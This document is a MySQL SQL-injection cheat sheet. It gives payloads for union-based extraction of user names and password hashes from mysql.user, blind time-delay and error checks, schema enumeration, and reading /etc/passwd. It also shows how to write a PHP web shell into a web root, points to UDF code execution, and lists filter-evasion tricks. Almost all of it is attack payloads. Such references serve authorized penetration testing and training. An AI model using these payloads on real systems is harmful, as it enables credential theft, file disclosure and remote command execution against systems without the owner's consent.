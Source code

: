 # MySQL

## comments

```
mysql> select 1+1; #comment
mysql> select 1+1; -- mind the space after the double dash!
mysql> select 1 /* inline comment */ + 1;
```

## substring

```
mysql> select substr(password, <offset>, <chars>) from mysql.user where user = <user>;
```

the first character of a string is at *offset* 1

## limit

```
mysql> select host, user, password from mysql.user limit <offset>, <rows>;
```

the first row is at *offset* 0

## determine number of columns in query

```
mysql> ... order by <nr>;
```

increase *nr* until you get an error

## union all

```
mysql> <original query>
union all
select host, user, password [, "4", ..., <nr>] from mysql.user;
```

## conditional errors/delay

```
mysql> select if(
  <condition>,
  sleep(10),
  (select table_name from information_schema.tables)
);
```

trigger a time delay if *condition* is true, or an error otherwise (iff the current DB user doesn't have permission to read from `information_schema`)

## database information

```
mysql> select @@version;
mysql> select version();
mysql> select database(); #current DB
```

## database content

list all schemata (i.e. databases), tables and columns

```
mysql> select schema_name from information_schema.schemata;
mysql> select table_name from information_schema.tables where table_schema = '<database>';
mysql> select column_name from information_schema.columns where table_schema = '<database>' and table_name = '<table>';
```

## read/write files

```
mysql> select load_file('/etc/passwd');
mysql> select 'some text' into outfile 'filename';
```

### PHP backdoor

```
mysql> select "<?php system($_REQUEST['cmd']);?>" into outfile "/path/to/web/root/shell.php"
```

### code execution

if `mysqld` is running as `root`, we can get code execution by uploading a shared object file (i.e. `.so`) that contains a *User Defined Function*.
see [`raptor_udf.c`](http://www.0xdeadbeef.info/exploits/raptor_udf.c) for an explanation and sample UDF. 

## combine columns

```
mysql> select host, concat(user, ':', password) from mysql.user;
```

## filter evasion

```
mysql> select+(password)/*comment*/from`mysql.user`where(user)="<user>";
mysql> select concat('t','e','s','t');
mysql> select 0x41424344; #ABCD
mysql> select char(116,101,115,116); #test
```

## more

* [portswigger.net](https://portswigger.net/web-security/sql-injection/cheat-sheet)
* [pentestmonkey.net](http://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet)
